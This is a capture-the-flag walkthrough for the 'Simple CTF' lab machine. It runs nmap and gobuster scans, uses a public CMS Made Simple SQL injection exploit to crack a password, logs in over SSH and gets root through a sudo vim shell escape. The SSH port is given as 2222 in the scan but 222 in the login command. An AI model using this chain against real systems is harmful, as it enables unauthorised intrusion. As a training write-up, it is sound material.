

# Simple CTF - Walkthrough


## TARGET : 10.10.9.135
## ATTACKER : OPENVPN IP

## Scanning

`nmap -A -p- -T4 10.10.9.135`

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.3.237
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website

This is the default apache page. Nothing interesting here.

`http://10.10.9.135/robots.txt`

```
Disallow: /openemr-5_0_1_3 
#
# End of "$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $".
#
```

`gobuster dir -u http://10.10.9.135/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.9.135/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 311] [--> http://10.10.9.135/simple/]
```

`http://10.10.9.135/simple`


This is a CMS Made Simple website. Let's search for exploits.

`searchsploit cms made simple`



## Exploitation

`searchsploit -m php/webapps/46635.py` Or [Exploit](https://github.com/Mahamedm/CVE-2019-9053-Exploit-Python-3/blob/main/csm_made_simple_injection.py)


./46635.py -u http://10.10.9.135/simple/ --crack -w /usr/share/wordlists/rockyou.txt

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found:admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

## Gaining Access

`ssh mitch@10.10.9.135 -p 222`

```
$ whoami
mitch
$ ls -la
total 36
drwxr-x--- 3 mitch mitch 4096 aug 19  2019 .
drwxr-xr-x 4 root  root  4096 aug 17  2019 ..
-rw------- 1 mitch mitch  178 aug 17  2019 .bash_history
-rw-r--r-- 1 mitch mitch  220 sep  1  2015 .bash_logout
-rw-r--r-- 1 mitch mitch 3771 sep  1  2015 .bashrc
drwx------ 2 mitch mitch 4096 aug 19  2019 .cache
-rw-r--r-- 1 mitch mitch  655 mai 16  2017 .profile
-rw-rw-r-- 1 mitch mitch   19 aug 17  2019 user.txt
-rw------- 1 mitch mitch  515 aug 17  2019 .viminfo
$ cat user.txt
G00d j0b, keep up!
```

## Privilege Escalation

```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

We can run vim as root without password. Let's spawn a shell.
[Exploit](https://gtfobins.github.io/gtfobins/vim/#sudo)

`sudo vim -c ':!/bin/sh'`

```
# whoami
root
# cat /root/root.txt
W3ll d0n3. You made it!
```